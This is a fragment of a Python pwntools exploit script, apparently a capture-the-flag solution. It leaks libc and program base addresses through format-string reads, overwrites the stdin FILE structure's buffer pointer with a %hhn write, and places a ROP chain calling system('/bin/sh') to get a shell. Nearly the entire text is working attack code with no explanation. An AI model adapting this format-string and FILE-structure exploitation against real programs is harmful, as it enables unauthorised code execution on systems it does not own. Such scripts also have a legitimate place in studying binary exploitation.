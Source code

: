 ```python
	libc_start_main = int(r(12),16) - 240
	libc_base = libc_start_main - lib.sym['__libc_start_main']
	li('libc_base:' + hex(libc_base))
	sys_addr = libc_base + lib.sym['system']
	sh_addr  = libc_base + lib.search('/bin/sh').next()
	
	# leaking elf base
	sla('>>', str(2))
	sla(':', str(7))
	p = '%14$p'
	sl(p)
	ru('0x')
	elf_base = int(r(12),16) - 0xD30
	main_addr = elf_base + 0xC6C
	pop_rdi_ret = elf_base + 0xd93
	li('elf_base:' + hex(elf_base))

	#leaking main ret in stack
	sla('>>', str(2))
	sla(':', str(7))
	p = '%12$p'
	sl(p)
	ru('0x')
	main_ret = int(r(12),16) + 0x8

	
	#leaking IO_buf_base
	_IO_2_1_stdin_ = libc_base + lib.sym['_IO_2_1_stdin_']
	_IO_buf_base = _IO_2_1_stdin_ + 0x8 * 7
	li('_IO_buf_base' + hex(_IO_buf_base))
		
    #modify _IO_buf_base
	sla('>>', str(1))
	p = p64(_IO_buf_base)
	sl(p)
	sla('>>', str(2))
	sla(':', str(7))
	p = '%16$hhn'
	sl(p)

	#build payload to modify _IO_2_1_stdin struct
	p = p64(_IO_2_1_stdin_ + 0x83) * 3
	p += p64(main_ret) + p64(main_ret + 0x8 * 3)
	sla('>>', str(2))
	sa(':', p) #length:
	sl('')
	
	#call getchar() make fp->_IO_read_ptr == fp->_IO_read_end
	for i in range(0, len(p) - 1):
		sla('>>', str(2))
		sla(':', ',')
		sl(' ')
	
	#build rop chail
	sla('>>', str(2))
	p = p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
	sla(':', p) #length:
	sl('')
	#db()

	#get shell
	sla('>>', str(3))

```